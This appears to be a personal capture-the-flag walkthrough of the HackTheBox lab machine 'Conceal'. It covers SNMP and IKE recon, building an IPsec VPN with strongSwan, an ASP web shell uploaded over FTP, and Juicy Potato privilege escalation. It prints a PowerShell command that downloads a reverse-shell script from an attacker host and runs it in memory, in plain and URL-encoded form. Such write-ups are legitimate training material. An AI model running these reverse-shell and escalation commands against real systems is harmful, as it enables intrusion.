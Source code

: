 # Conceal HelpThrough

Name: Conceal
Date:  13/11/2022
Difficulty: Hard 
Goals: OSCP Prep
Learnt:
- snmp-check output is bonkers
- 5353 (multicat dns)
- 5355 (LLMNR) - responder catch hashes from this 
- ike-scan -m  for better output
- Ipsec
- Setting up VPN servers
- nmap does not SYN through a VPN
- Strongswan is very picky
- Simple asp shell is best shell
- CLSID Keys
- Batch files to do IEX powershell reverse shelling

Having a bad hardware day... Therefore to keep the proverbial paddling  of a good life going ever on, Ippsec video on standby to learn why this box is so hard to enumerate and how I can encorporate more diligence when facing challenges that do not want to be found.

## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Conceal/Screenshots/ping.png)

[isakmp](https://en.wikipedia.org/wiki/Internet_Security_Association_and_Key_Management_Protocol)

I did an Ikescan to find this, awhile ago knowing the box is hard. Just here to learn and textual fill in the gaps,:

```
CONCEAL : 9C8B1A372B1878851BE2C097031B6E43
iso.3.6.1.2.1.1.4.0 = STRING: "IKE VPN password PSK - 9C8B1A372B1878851BE2C097031B6E43"
```

On hearing the introduction I have never step up a vpn from nothing. So I will also do that. 

![](ntlmdudecake.png)

`Dudecake1!`

```bash
snmp-check -l 
```

At this point I fired up researching Ipsec protocol, because I think I have not covered it much to liTTLe in my notes. The VPN protocol - it authenicates and encrypts packets to provide secure communication between two computer. I will release my articles on making my own tomorrow evening along with the Ipsec related information. [Strongswan](https://en.wikipedia.org/wiki/StrongSwan) is apparently really complex and frail as of 4 years ago, will look into a better version. I looked into OpenVPN, but I would need to transfer config.

We need to install strongswan, because we want to create a transport vpn because a tunnel mode would encrypt traffic were cant exchange or debug at the other end. Trouble IPsec with [https://docs.netgate.com/pfsense/en/latest/troubleshooting/ipsec.html]. With some reading I decided to move on from this box until I need to make a VPN with Strongswan. I learnt about Ipsec, but Strongswan has evolved since, but
Ipsec manual and Ipsec.secrets, the Strongswan documentation is rough.

```bash
sudo apt install strongswan

# Ipsec.secrets
sudo vim /etc/ipsec.secrets
$ip %any : PSK "$Key" 

echo "
conn Conceal
        type=transport
        keyexchange=ikev1
        left=$IP
        leftprotoport=tcp
        right=$Coneals_IP
        rightprotoport=tcp
        authby=psk
        esp=3des-sha1
        fragmentation=yes
        ike=3des-sha1-modp1024
        ikelifetime=8h
        auto=start
" | sudo tee -a /etc/ipsec.conf

sudo ipsec start --nofork
# more issues change the maximum transmission unit 
# 
ifconfig tun0 mtu 1000 
```

![](wowvpninyourvpn.png)

At this point I thought I might as well pause the video and try hacking in from here for 30 minutes. 

## Exploit

FTP anonymous login with permissions to upload, but I cant print the directory or its contents. 
![](ftpupload.png)

Tried the webserver to see if it is link somehow. 
![1000](uploaddir.png)
No rcpclient, smb - retried uploading:
![](testing.png)

![](aspcmddoesnotwork.png)

Tried others and with aspx and failed. 

## Foothold 

I ended up using the very simple asp shell that is awesome from [0xdf](https://0xdf.gitlab.io/2019/05/18/htb-conceal.html)

```powershell
# The power of executing in memory powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.109/Invoke-PowerShellTcp.ps1')"
# Url encode
cmd=%70%6f%77%65%72%73%68%65%6c%6c%20%22%49%45%58%28%4e%65%77%2d%4f%62%6a%65%63%74%20%4e%65%74%2e%57%65%62%43%6c%69%65%6e%74%29%2e%64%6f%77%6e%6c%6f%61%64%53%74%72%69%6e%67%28%27%68%74%74%70%3a%2f%2f%31%30%2e%31%30%2e%31%34%2e%31%30%39%2f%49%6e%76%6f%6b%65%2d%50%6f%77%65%72%53%68%65%6c%6c%54%63%70%2e%70%73%31%27%29%22
```

![](boxon.png)



## PrivEsc

Having recently compile every Potato exploit under the sun in the last 10 hours. It will be nice that Juicy Potato will work
![1080](potatotime.png)

From 0xDF I learnt about CLSIDs.
[RTFM](https://learn.microsoft.com/en-us/windows/win32/com/clsid-key-hklm)
A CLSID is a globally unique identifier that identifies a COM class object. If your server or container allows linking to its embedded objects, you need to register a CLSID for each supported class of objects.

`HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{CLSID}`

Nothing wants to run.
```
.\jp.exe -t * -l 9001 -p <put a batch file that pull another powershell reverse shell into memory> -c '{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}'
# -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```


![](system.png)